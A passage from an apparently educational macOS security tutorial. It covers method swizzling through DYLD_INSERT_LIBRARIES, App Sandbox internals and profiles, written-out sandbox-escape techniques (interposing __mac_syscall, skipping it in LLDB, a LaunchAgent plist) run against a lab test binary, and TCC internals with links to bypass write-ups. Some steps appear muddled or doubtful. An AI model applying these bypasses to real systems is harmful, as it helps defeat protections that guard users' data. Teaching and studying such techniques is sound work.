            NSLog(@"[+] Congrats, You swizzle it successfully");
        } else {
            NSLog(@"[-] You need to be more swizzly :(");
        }
    }
    return 0;
}
```

1. **Import Statements**: We import the necessary Foundation framework and CommonCrypto library for MD5 hashing.
2. **MD5 Generator Class**:
    - **md5HashOfString**: Computes the MD5 hash of a given input string.
3. **Random String Generation**:
    - **generateRandomString**: Generates a random string of a given length using alphanumeric characters.
4. **User Input**:
    - **getUserInput**: Reads user input from the command line.
5. **Main Function**:
    - Generates a random message and computes its MD5 hash.
    - Prompts the user to enter the original message.
    - Compares the hash of the user input with the computed hash.
    - Prints a success message if the hashes match, otherwise prints a failure message.


### Step 2: Swizzle the MD5 Hash Method to Log the Original Message

Next, we will use method swizzling to intercept the `md5HashOfString:` method and log the original message.

**Swizzle.m:**

```objc
#import <Foundation/Foundation.h>
#import <objc/runtime.h>

// Function pointer for the original md5HashOfString function
static NSString* (*original_md5HashOfString)(id, SEL, NSString *) = NULL;

// Custom function to log the message and call the original md5HashOfString
static NSString* custom_md5HashOfString(id self, SEL _cmd, NSString *input) {
    NSLog(@"Intercepted MD5 message: %@", input);
    return original_md5HashOfString(self, _cmd, input);
}

// Constructor function to perform the swizzling
__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
    Class generatorClass = NSClassFromString(@"MD5Generator");
    SEL originalSelector = @selector(md5HashOfString:);
    Method originalMethod = class_getInstanceMethod(generatorClass, originalSelector);

    // Replace the original implementation with the custom implementation
    original_md5HashOfString = (NSString* (*)(id, SEL, NSString *))method_setImplementation(originalMethod, (IMP)custom_md5HashOfString);
}
```

1. **Import Statements**: We import the necessary Foundation framework and Objective-C runtime for method swizzling.
2. **Static Function Pointer**: We declare a static function pointer `original_md5HashOfString` to hold the original implementation of the `md5HashOfString:` method. This allows us to call the original method from within our custom implementation.
3. **Custom Function**:
    - **Log the Original Message**: The custom function `custom_md5HashOfString` logs the original message.
    - **Call Original Function**: The original `md5HashOfString:` method is called using the stored function pointer, passing along the original parameters.
4. **Constructor Function**:
    - **Get Method**: The `class_getInstanceMethod` function is used to get the method for `md5HashOfString:`.
    - **Replace Implementation**: The `method_setImplementation` function is used to replace the original implementation of `md5HashOfString:` with our custom implementation. The original implementation is stored in `original_md5HashOfString`.

### Step 3: Compile and Run

To compile and run the application with the swizzle library:

1. **Compile the MD5 Application**:
    ```bash
    clang -framework Foundation -framework CommonCrypto -o MD5App MD5App.m
    ```

To allow your application to load dynamic libraries using the `DYLD_INSERT_LIBRARIES` environment variable, you need to add the `com.apple.security.cs.allow-dyld-environment-variables` entitlement as well. Here's how to do it:

1. **Create an Entitlements File**:
   Create an entitlements file (`entitlements.plist`) with the necessary permissions.

   **entitlements.plist**:
   ```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
	<plist version="1.0">
	<dict>
	   <key>com.apple.security.cs.disable-library-validation</key>
	   <true/>
	   <key>com.apple.security.cs.allow-dyld-environment-variables</key>
	   <true/>
	</dict>
	</plist>
   ```

2. **Sign the Application**:
   Use the `codesign` tool to sign the application with the created entitlements.

   **Commands**:
   ```bash
   codesign --deep --force --verify --verbose --entitlements entitlements.plist --sign "YOUR_IDENTITY" YOUR_APP_PATH
   ```

2. **Compile the Swizzle Code**:
    ```bash
    clang -dynamiclib -framework Foundation -o Swizzle.dylib Swizzle.m
    ```

3. **Run the Application with the Swizzle Library**:
    ```bash
    DYLD_INSERT_LIBRARIES=./Swizzle.dylib ./MD5App
    ```

**Output:**

```plaintext
2024-06-25 15:30:00.000000+0000 MD5App[12345:67890] Generated Message: <random_message>
2024-06-25 15:30:00.000000+0000 MD5App[12345:67890] MD5 Hash: <md5_hash>
Please enter the original string:
<user_enters_message>
2024-06-25 15:30:00.000000+0000 MD5App[12345:67890] Intercepted MD5 message: <user_enters_message>
Congrats, You swizzle it successfully
```

If the user enters the correct message, it will display "Congrats, You swizzle it successfully". If the message is incorrect, it will display "You need to be more swizzly :(". The swizzle library will intercept and log the original message, demonstrating the dynamic interception of method calls.


# SandBox Escaping
The `macOS` Sandbox was introduced in Mac OS X 10.5 Leopard, which was released on October 26, 2007. Initially, the sandbox was used to protect specific system services and applications. Over time, its use has expanded, and it has become a critical component of `macOS`'s overall security architecture.
## Fundementals

The isolation helps prevent applications from accessing unauthorized data and limits the potential damage of a compromised application. The Sandbox achieves this by enforcing strict controls on what resources an application can access and what actions it can perform.


### Components of macOS Sandbox

1. **Userland Daemon (`/usr/libexec/sandboxd`)**:
   - This daemon enforces sandbox policies and monitors application behavior.
  
2. **Private Framework (`/System/Library/PrivateFrameworks/AppSandbox.framework`)**:
   - This framework provides APIs for managing and enforcing sandbox policies.

3. **Kernel Extension (`/System/Library/Extensions/Sandbox.kext`)**:
   - The kernel extension implements the core sandboxing functionality, extending the Mandatory Access Control Framework (`MACF`) of the macOS kernel.

### Sandbox Profile Language
The Sandbox Profile Language (`SBPL`) is used to define the rules and policies for sandboxing applications in macOS. These profiles determine what an application can and cannot do, ensuring that applications run in a restricted environment to enhance security.
#### Sandbox Profile Paths

When an application is sandboxed, it is contained within a specific directory under `~/Library/Containers`. The profile path includes:
- **Container Directory**: `~/Library/Containers/<bundle_id>`
- **Profile Data File**: `~/Library/Containers/<bundle_id>/Container.plist`
- **Data Directory**: `~/Library/Containers/<bundle_id>/Data`

The `Container.plist` file contains configuration data about the sandbox environment, including entitlements and access permissions.

### App Sandboxing Process



1. **Application Start**:
   - The process begins when the application is launched.
   
2. **Dynamic Loader (dyld)**:
   - The dynamic loader (`dyld`) loads the `libSystem.B.dylib` library, which is essential for system functions.

3. **Library Initialization (libSystem)**:
   - `libSystem.B.dylib` initializes and makes a call to `libsystem_secinit.dylib`.

4. **Sandbox Registration (libSecInit)**:
   - `libsystem_secinit.dylib`'s `_libsecinit_appsandbox` function makes an XPC call to `secinitd` daemon to register the application and retrieve sandbox profile information.

5. **Sandbox Profile Retrieval (secinitd)**:
   - The `secinitd` daemon sends back the sandbox profile and related information.

6. **Kernel Extension (Kernel)**:
   - Finally, `libsystem_secinit.dylib` applies the sandbox restrictions by making a syscall (`__mac_syscall`) to the sandbox kernel extension, which enforces the sandbox policies.

 ## Sandbox Profile Language
#### Sandbox Profile Language (SBPL) Syntax

Sandbox profiles are written in SBPL, which uses a Lisp-like syntax. The key components include:

- **(version X)**: Specifies the version of the SBPL.
- **(allow ...)**: Allows specific actions or accesses.
- **(deny ...)**: Denies specific actions or accesses.
- **(regex "...")**: Uses regular expressions to match paths or resources.

#### Applying and Testing Profiles

1. **Creating Profiles**:
   - Write the profile rules in a text editor and save the file with a `.sb` extension.
   
2. **Applying Profiles**:
   - Use the `sandbox-exec` command to apply the profile to an application for testing.
   
   ```bash
   sandbox-exec -f path/to/profile.sb /path/to/application
   ```
   
3. **Testing and Debugging**:
   - Run the application with the applied profile and monitor its behavior. Adjust the rules as necessary to ensure the application functions correctly while adhering to the security constraints.
#### 1. Default Profiles

**Example: Default Browser Profile**

```plaintext
(version 1)
(allow file-read-data (regex "^/Users/[^/]+/"))
(allow file-write-data (regex "^/Users/[^/]+/"))
(allow network-outbound (remote tcp))
(deny file-read-data (regex "^/System/"))
(deny file-write-data (regex "^/System/"))
```

- **(version 1)**: Specifies the SBPL version.
- **(allow file-read-data (regex "^/Users/[^/]+/"))**: Allows the application to read data from any user's home directory.
- **(allow file-write-data (regex "^/Users/[^/]+/"))**: Allows the application to write data to any user's home directory.
- **(allow network-outbound (remote tcp))**: Allows outbound TCP network connections, enabling internet access.
- **(deny file-read-data (regex "^/System/"))**: Denies reading data from the system directory, protecting system files.
- **(deny file-write-data (regex "^/System/"))**: Denies writing data to the system directory, preventing system modification.

#### 2. Custom Application Profiles

**Example: Custom Profile for a Media Player**

```plaintext
(version 1)
(deny default)
(allow file-read-data (regex "^/Users/[^/]+/Music/"))
(allow file-read-data (regex "^/Users/[^/]+/Movies/"))
(allow network-outbound (remote tcp))
(deny file-read-data (regex "^/Users/[^/]+/Documents/"))
(deny file-write-data)
```

**Explanation**:
- **(version 1)**: Specifies the SBPL version.
- **(deny default)**: Denies all actions by default, enforcing a restrictive policy.
- **(allow file-read-data (regex "^/Users/[^/]+/Music/"))**: Allows reading data from the Music directory.
- **(allow file-read-data (regex "^/Users/[^/]+/Movies/"))**: Allows reading data from the Movies directory.
- **(allow network-outbound (remote tcp))**: Allows outbound TCP network connections for streaming.
- **(deny file-read-data (regex "^/Users/[^/]+/Documents/"))**: Denies reading data from the Documents directory.
- **(deny file-write-data)**: Denies all file write operations, preventing any modifications.

#### 3. Developer Profiles

**Example: Developer Profile for a Web Application**

```plaintext
(version 1)
(allow file-read-data)
(allow file-write-data)
(allow network-outbound (remote tcp))
(allow network-inbound (local tcp))
```

**Explanation**:
- **(version 1)**: Specifies the SBPL version.
- **(allow file-read-data)**: Allows reading data from any file location.
- **(allow file-write-data)**: Allows writing data to any file location.
- **(allow network-outbound (remote tcp))**: Allows outbound TCP network connections, enabling internet access.
- **(allow network-inbound (local tcp))**: Allows inbound TCP network connections, facilitating local testing and debugging.

#### 4. Service-Specific Profiles

**Example: Profile for a Backup Service**

```plaintext
(version 1)
(deny default)
(allow file-read-data (regex "^/Users/[^/]+/"))
(deny file-write-data)
(deny network-outbound)
```

**Explanation**:
- **(version 1)**: Specifies the SBPL version.
- **(deny default)**: Denies all actions by default, enforcing a restrictive policy.
- **(allow file-read-data (regex "^/Users/[^/]+/"))**: Allows reading data from any user's home directory for backup purposes.
- **(deny file-write-data)**: Denies all file write operations, preventing any modifications.
- **(deny network-outbound)**: Denies outbound network connections, ensuring no data is sent over the network.

#### 5. Minimalist Profiles

**Example: Minimalist Profile for a Secure Notes App**

```plaintext
(version 1)
(deny default)
(allow file-read-data (regex "^/Users/[^/]+/SecureNotes/"))
(allow file-write-data (regex "^/Users/[^/]+/SecureNotes/"))
(deny network-outbound)
(deny network-inbound)
```

**Explanation**:
- **(version 1)**: Specifies the SBPL version.
- **(deny default)**: Denies all actions by default, enforcing a highly restrictive policy.
- **(allow file-read-data (regex "^/Users/[^/]+/SecureNotes/"))**: Allows reading data only from the SecureNotes directory.
- **(allow file-write-data (regex "^/Users/[^/]+/SecureNotes/"))**: Allows writing data only to the SecureNotes directory.
- **(deny network-outbound)**: Denies outbound network connections, preventing data from being sent out.
- **(deny network-inbound)**: Denies inbound network connections, ensuring no external access.

## Building and Testing a Sandboxed Application
We will create a simple application that attempts to read a file in the `/etc/` directory and observe how the sandbox restricts this operation.

#### Step 1: Create the Application

First, we will create a simple C application that tries to read the contents of a file in the `/etc/` directory.

**Source Code of Sandboxed Application**

```c
#include <stdio.h>

int main() {
  FILE *file;
  char buffer[100];

  file = fopen("/etc/hosts", "r");
  if (file == NULL) {
    perror("Error opening file");
    return -1;
  }

  while (fgets(buffer, 100, file) != NULL) {
    printf("%s", buffer);
  }

  fclose(file);
  return 0;
}
```

Save this code in a file named `readfile.c`.

#### Step 2: Create the Entitlement File

To enable sandboxing, we need to create an entitlement file that forces the application into the sandbox.

**Entitlement File (readfile.xml)**

```xml
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>com.apple.security.app-sandbox</key>
    <true/>
</dict>
</plist>
```

Save this content in a file named `readfile.xml`.

#### Step 3: Create the Info.plist File

We also need an `Info.plist` file to embed in our application.

**Info.plist**

```xml
<plist version="1.0">
<dict>
  <key>CFBundleIdentifier</key>
  <string>com.example.readfile</string>
  <key>CFBundleName</key>
  <string>ReadFile</string>
</dict>
</plist>
```

Save this content in a file named `Info.plist`.

#### Step 4: Compile and Embed Info.plist

To compile the application and embed the `Info.plist` file, use the following command:

```bash
gcc -Xlinker -sectcreate -Xlinker __TEXT -Xlinker __info_plist -Xlinker Info.plist readfile.c -o readfile
```

#### Step 5: Code Sign the Application

Next, we need to code sign the application with the sandbox entitlement.

```bash
codesign -s "Your Signing Identity" --entitlements readfile.xml readfile
```

#### Step 6: Run the Application

Now, let's run the application to see if it can read the file in the `/etc/` directory.

```bash
./readfile
Error opening file: Operation not permitted
```

As expected, the operation is not permitted because the sandbox restricts access to the `/etc/` directory.

 ## Guide for sandbox Escaping
There are couples of ways can be considered to escape/bypass the sandbox:
### Method 1: Kernel Vulnerability Exploitation

**Summary**: This method involves finding and exploiting a vulnerability in the macOS kernel. Exploiting a kernel vulnerability grants immediate kernel privileges, effectively bypassing the sandbox and escalating user privileges. This approach is commonly used across various operating systems, including Windows.

- **Advantages**: Provides immediate kernel privileges and complete control over the system.
- **Disadvantages**: Requires deep knowledge of kernel internals and sophisticated exploitation techniques. Finding exploitable kernel vulnerabilities can be challenging.

### Method 2: Non-Sandboxed Binary Execution

**Summary**: This method involves placing a non-sandboxed binary or script on the system and having a non-sandboxed application execute it. The execution of the non-sandboxed binary allows the escape from the sandbox.

**Approach 1**: Use PLIST Files in Launch Agents or Daemons
- **Description**: Drop a PLIST file inside `~/Library/LaunchAgents` or `/Library/LaunchDaemons`. The `launchd` service will later execute the binary specified in the PLIST file outside the sandbox.
- **Steps**:
  - Create a PLIST file with the appropriate configuration to execute your binary.
  - Place the PLIST file in the `~/Library/LaunchAgents` or `/Library/LaunchDaemons` directory.
  - Wait for `launchd` to execute the binary.

**Approach 2**: Communicate with a Non-Sandboxed Mach Service
- **Description**: Find a non-sandboxed Mach service that can be instructed to execute a binary. Communicate with this service to have it execute the binary for you outside the sandbox.
- **Steps**:
  - Identify a suitable non-sandboxed Mach service.
  - Develop a way to communicate with the Mach service.
  - Instruct the service to execute your binary.

- **Advantages**: Relatively easier to implement compared to kernel exploitation.
- **Disadvantages**: Depends on the availability of non-sandboxed applications or services willing to execute the binary.

#### Method 3: Vulnerability in Sandbox Implementation

**Summary**: This method involves finding and exploiting a vulnerability within the sandbox implementation itself. By exploiting this vulnerability, it is possible to break out of the sandbox restrictions.

- **Advantages**: Directly targets the sandbox mechanism, potentially leading to a more reliable escape.
- **Disadvantages**: Requires a detailed understanding of the sandbox implementation and identifying exploitable flaws within it.

## Method 1 Using Interposing to Disable Sandbox

This guide provides step-by-step instructions to disable macOS sandbox restrictions using the interposing technique. We will create a dynamic library that interposes the `__mac_syscall` function to bypass sandboxing for our `readfile` application.

#### Step 1: Create the Interposing Library

1. **Write the Interposing Code**:
   Create a new file named `interpose.c` with the following content:

   ```c
   #include <stdio.h>

   int __mac_syscall(const char *_policyname, int _call, void *_arg);

   #define DYLD_INTERPOSE(_replacement, _replacee) \
       __attribute__((used)) static struct { \
           const void* replacement; \
           const void* replacee; \
       } _interpose_##_replacee __attribute__ ((section("__DATA, __interpose"))) = { \
           (const void*) (unsigned long) &_replacement, \
           (const void*) (unsigned long) &_replacee \
       };

   int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
       printf("__mac_syscall arguments: policyname ==> %s, call ==> %d, arg ==> %p)\n", _policyname, _call, _arg);
       return 0; 
   }

   DYLD_INTERPOSE(my_mac_syscall, __mac_syscall);
   ```

2. **Explanation**:
   - **`__mac_syscall`**: Declares the original system function that we will interpose.
   - **`DYLD_INTERPOSE`**: Macro used to interpose the `__mac_syscall` function.
   - **`my_mac_syscall`**: Custom implementation of `__mac_syscall` that prints the function arguments and returns 0, indicating a successful call.

#### Step 2: Compile the Interposing Library

1. **Compile**:
   Use the following command to compile the interposing library into a dynamic library (`.dylib`):

   ```bash
   gcc -dynamiclib -o interpose.dylib interpose.c
   ```

   This command creates a dynamic library named `interpose.dylib`.

#### Step 3: Run the Application with Interposing Library

1. **Run with DYLD_INSERT_LIBRARIES**:
   Set the `DYLD_INSERT_LIBRARIES` environment variable to the path of the interposing library and run the `readfile` application:

   ```bash
   DYLD_INSERT_LIBRARIES=./interpose.dylib ./readfile
   ```

   This command sets up the environment so that the dynamic loader (`dyld`) loads the interposing library before executing the `readfile` application.
## Method 2: Inspect & Bypass sandbox initialization process Using LLDB Debugger

This guide provides step-by-step instructions to bypass macOS sandbox restrictions using the LLDB debugger on the previously created `readfile` application. The `readfile` application attempts to read the `/etc/hosts` file, which is restricted by the sandbox.

#### Step 1: Load the Executable into the Debugger

1. **Start LLDB**:
   Open your terminal and start LLDB with the target application:

   ```bash
   lldb ./readfile
   ```

2. **Create Target**:
   Set the executable as the target:

   ```lldb
   (lldb) target create "./readfile"
   ```

   This command loads the `readfile` application into the debugger.

#### Step 2: Set a Breakpoint on `xpc_pipe_routine`

1. **Set Breakpoint**:
   Set a breakpoint on the `xpc_pipe_routine` function, which is responsible for handling inter-process communication:

   ```lldb
   (lldb) b xpc_pipe_routine
   ```

   The debugger will break when it reaches this function.

#### Step 3: Run the Application

1. **Run**:
   Start running the application within the debugger:

   ```lldb
   (lldb) run
   ```

   The application will start and pause when it hits the breakpoint.

#### Step 4: Check the Backtrace

1. **Backtrace**:
   Check the backtrace to understand the call stack at the breakpoint:

   ```lldb
   (lldb) bt
   ```

   This command provides a backtrace showing the series of function calls leading to `xpc_pipe_routine`.

#### Step 5: Continue Execution and Break Again

1. **Continue**:
   Resume execution to hit the breakpoint again, this time ensuring it is called from the relevant function (`_libsecinit_appsandbox`):

   ```lldb
   (lldb) c
   ```

2. **Backtrace**:
   Check the backtrace again to verify the call stack:

   ```lldb
   (lldb) bt
   ```

   Ensure `xpc_pipe_routine` is called from `_libsecinit_appsandbox`.

#### Step 6: Inspect the XPC Message

1. **Inspect Message**:
   Use the `p` command to inspect the XPC message being sent:

   ```lldb
   (lldb) p (char *) xpc_copy_description($rsi)
   ```

   This command prints the details of the XPC message.

2. **Retrieve Reply Address**:
   Read the value of the RDX register to find the address where the XPC reply will be stored:

   ```lldb
   (lldb) register read $rdx
   ```

   Note the address returned by this command.

#### Step 7: Step Out and Inspect the Reply

1. **Step Out**:
   Step out of the `xpc_pipe_routine` function call to continue execution until it returns:

   ```lldb
   (lldb) finish
   ```

2. **Read Memory**:
   Read the memory at the address noted in the previous step to inspect the XPC reply:

   ```lldb
   (lldb) memory read -f p 0x00007ffeefbfdc28 -c 1
   (lldb) p (char *) xpc_copy_description(0x0000000100202bd0)
   ```

   This command displays the details of the XPC reply, providing information about sandboxing.

#### Step 8: Set a Conditional Breakpoint on `__mac_syscall`

1. **Set Breakpoint**:
   Set a conditional breakpoint on `__mac_syscall` to intercept the sandbox initialization:

   ```lldb
   (lldb) breakpoint set --name __mac_syscall --condition '($rsi == 0)'
   ```

   This breakpoint triggers when the second argument (RSI) is zero, indicating a sandbox initialization call.

#### Step 9: Continue and Modify Execution

1. **Continue**:
   Resume execution to hit the conditional breakpoint:

   ```lldb
   (lldb) c
   ```

2. **Check Parameters**:
   Verify the parameters after hitting the breakpoint to ensure it is the correct call:

   ```lldb
   (lldb) memory read -f s $rdi
   (lldb) register read $rsi
   ```

3. **Skip System Call**:
   Modify the instruction pointer to skip the system call and set the return value to indicate success:

   ```lldb
   (lldb) register write $rip 0xADDRESS
   (lldb) register write $rax 0
   (lldb) breakpoint delete 1
   (lldb) c
   ```

   - **`register write $rip 0xADDRESS`**: Adjusts the instruction pointer to skip the system call.
   - **`register write $rax 0`**: Sets the return value to 0, indicating a successful call.
   - **`breakpoint delete 1`**: Deletes the initial breakpoint set on `xpc_pipe_routine`.

#### Step 10: Verify Execution

1. **Run Application**:
   Allow the application to continue running and verify that it operates without sandbox restrictions.

   ```lldb
   (lldb) c
   ```

## Method3: Escape Sandbox Using `launchd`

This guide provides step-by-step instructions to bypass macOS sandbox restrictions using the `launchd` service. We will create a Launch Agent to execute our `readfile` application without sandbox restrictions.

#### Step 1: Create the Launch Agent PLIST File

1. **Write the PLIST Configuration**:
   Create a new file named `com.example.readfile.plist` with the following content:

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
   <plist version="1.0">
   <dict>
       <key>Label</key>
       <string>com.example.readfile</string>
       <key>ProgramArguments</key>
       <array>
           <string>/path/to/readfile</string>
       </array>
       <key>RunAtLoad</key>
       <true/>
   </dict>
   </plist>
   ```

2. **Explanation**:
   - **Label**: A unique identifier for the Launch Agent.
   - **ProgramArguments**: The path to the `readfile` application.
   - **RunAtLoad**: Ensures the application runs immediately after the Launch Agent is loaded.

#### Step 2: Place the PLIST File

1. **Copy PLIST File**:
   Copy the PLIST file to the `LaunchAgents` directory:

   ```bash
   cp com.example.readfile.plist ~/Library/LaunchAgents/
   ```

   This places the PLIST file in the user's Launch Agents directory.

#### Step 3: Load the Launch Agent

1. **Load Agent**:
   Load the Launch Agent using the `launchctl` command:

   ```bash
   launchctl load ~/Library/LaunchAgents/com.example.readfile.plist
   ```

2. **Verify Loading**:
   Ensure the Launch Agent is loaded by checking its status:

   ```bash
   launchctl list | grep com.example.readfile
   ```

   This command should return the identifier of the Launch Agent if it is loaded correctly.

#### Step 4: Verify Application Execution

1. **Check Application Output**:
   The `readfile` application should execute without sandbox restrictions and read the `/etc/hosts` file. Check the application's output:

   ```bash
   tail -f /path/to/readfile/output.log
   ```

Ensure that the contents of the `/etc/hosts` file are displayed, indicating the application ran successfully without sandbox restrictions.


# TCC Bypass

## Fundamentals

Transparency, Consent, and Control (TCC) is a security framework implemented by Apple in macOS to manage and regulate applications' access to certain sensitive user data and system resources. The primary goal of TCC is to ensure user privacy and security by requiring explicit user consent before applications can access protected resources like the camera, microphone, location data, contacts, and calendars.

Key concepts in TCC include:

- **User Consent:** Applications must request permission from users before accessing protected resources.
- **Transparency:** Users are informed about what data and resources applications wish to access.
- **Control:** Users can grant or revoke permissions at any time via the System Preferences.

## How TCC Works

TCC operates by maintaining a database of permissions for each application. When an application requests access to a protected resource for the first time, TCC prompts the user to allow or deny the request. The user's response is then stored in the TCC database, and future requests by the same application for the same resource are automatically granted or denied based on the stored permission.

## Internal Workflow of TCC

1. **Permission Request:** When an application tries to access a protected resource, a request is sent to the TCC subsystem.
2. **User Prompt:** If it is the first time the application is requesting access to the resource, TCC presents a prompt to the user, asking for permission.
3. **User Decision:** The user can choose to allow or deny access. This decision is recorded in the TCC database.
4. **Access Control:** Based on the user's decision, TCC either grants or denies access to the requested resource.
5. **Database Management:** The TCC database is updated with the user's decision, ensuring that future requests by the same application for the same resource are handled automatically.

## Detailed Explanation of TCC Internals

- **TCC Daemon:** The core component of TCC is the TCCD (Transparency, Consent, and Control Daemon), which manages the TCC database and handles permission requests.
- **TCC Database:** The TCC database stores the user's decisions regarding application permissions. It is a SQLite database located at `/Library/Application Support/com.apple.TCC/TCC.db`.
- **System Preferences Integration:** Users can manage permissions via the System Preferences app, under Security & Privacy settings.
- **Inter-process Communication:** Applications communicate with TCCD using XPC (Cross-Process Communication) to request access to protected resources.
- **Audit Logs:** TCC maintains audit logs of permission requests and decisions, which can be used for troubleshooting and security auditing.

## TCC Protected Services

TCC controls access to several critical services on macOS:

- **kTCCServiceAccessibility:** Accessibility features
- **kTCCServiceAddressBook:** Contacts
- **kTCCServiceAppleEvents:** Apple Events
- **kTCCServiceCalendar:** Calendars
- **kTCCServiceCamera:** Camera
- **kTCCServiceFileProviderPresence:** File Provider presence
- **kTCCServiceListenEvent:** Listen event
- **kTCCServiceMediaLibrary:** Media library
- **kTCCServiceMicrophone:** Microphone
- **kTCCServiceMotion:** Motion & Fitness
- **kTCCServicePhotos:** Photos
- **kTCCServiceReminders:** Reminders
- **kTCCServiceScreenCapture:** Screen Recording
- **kTCCServiceSpeechRecognition:** Speech recognition
- **kTCCServiceSystemPolicyAllFiles:** Full Disk Access
- **kTCCServiceSystemPolicyDesktopFolder:** Desktop folder access
- **kTCCServiceSystemPolicyDocumentsFolder:** Documents folder access
- **kTCCServiceSystemPolicyDownloadsFolder:** Downloads folder access
- **kTCCServiceSystemPolicyNetworkVolumes:** Network volumes access
- **kTCCServiceSystemPolicyRemovableVolumes:** Removable volumes access

### Diagram of TCC Workflow



## Internals of TCC Database

- **Tables and Schema:** The TCC database consists of several tables that store information about applications and their permissions. Key tables include `access`, `access_overrides`, and `clients`.
  - `access`: Stores records of permissions granted or denied for each application and resource.
  - `access_overrides`: Contains records of overridden permissions.
  - `clients`: Maintains a list of applications that have requested permissions.

### Example of TCC Database Schema

```sql
CREATE TABLE access (
    service TEXT NOT NULL,
    client TEXT NOT NULL,
    client_type INTEGER NOT NULL,
    allowed INTEGER NOT NULL,
    prompt_count INTEGER NOT NULL,
    csreq BLOB,
    policy_id INTEGER,
    PRIMARY KEY (service, client, client_type)
);
CREATE TABLE clients (
    client TEXT NOT NULL,
    client_type INTEGER NOT NULL,
    csreq BLOB,
    policy_id INTEGER,
    last_seen INTEGER NOT NULL,
    PRIMARY KEY (client, client_type)
);
CREATE TABLE access_overrides (
    service TEXT NOT NULL,
    client TEXT NOT NULL,
    client_type INTEGER NOT NULL,
    auth_value INTEGER NOT NULL,
    auth_reason INTEGER NOT NULL,
    auth_version INTEGER NOT NULL,
    CONSTRAINT unique_client_service PRIMARY KEY (service, client, client_type)
);
```

### Example of a Permission Request Flow

1. **Application Request:** The application initiates a request to access a protected resource (e.g., the camera).
2. **TCCD Interaction:** The request is sent to the TCCD, which queries the TCC database to check if the application has already been granted or denied access to the resource.
3. **User Prompt:** If no record exists, the TCCD prompts the user to grant or deny access.
4. **User Decision:** The user's decision (grant or deny) is communicated back to the TCCD.
5. **Database Update:** The TCCD updates the TCC database with the user's decision.
6. **Access Control:** The TCCD enforces the user's decision, either allowing or denying the application's request.
7. **Subsequent Requests:** For subsequent requests, the TCCD refers to the TCC database to automatically grant or deny access based on the stored decision.

### Example of Access Control Flow

- **New Permission Request:**
  - Application requests access to the microphone.
  - TCCD checks the `access` table in the TCC database.
  - No existing permission is found.
  - TCCD prompts the user for permission.
  - User grants permission.
  - TCCD updates the `access` table with the new permission.
  - TCCD grants access to the application.
- **Existing Permission Request:**
  - Application requests access to the microphone.
  - TCCD checks the `access` table in the TCC database.
  - Existing permission is found (granted).
  - TCCD grants access to the application without prompting the user.

## Bypass TCC
As most of the bypasses relays on  vulnerabilities or misconfigurations that have to be exists, These resources will help you understand different ways of bypassing `TCC`:

- http://i.blackhat.com/EU-22/Thursday-Briefings/EU-22-Fitzl-Knockout-Win-Against-TCC.pdf
- https://cyberlibrary.fr/macos-tcc-bypasses
- https://jhftss.github.io/macOS-AUHelperService-Full-TCC-Bypass/
- https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-security-protections/macos-tcc/macos-tcc-bypasses
- https://wojciechregula.blog/post/macos-red-teaming-bypass-tcc-with-old-apps/
- https://gergelykalman.com/lateralus-CVE-2023-32407-a-macos-tcc-bypass.html
- https://medium.com/@rohitc33/cve-2022-32862-bypassing-the-transparency-consent-and-control-tcc-framework-on-macos-292dc6bce244
- https://zeyadazima.com/macos/CVE_2023_26818_P1/
- https://zeyadazima.com/macos/CVE_2023_26818_P2/

# Attacking GateKeeper

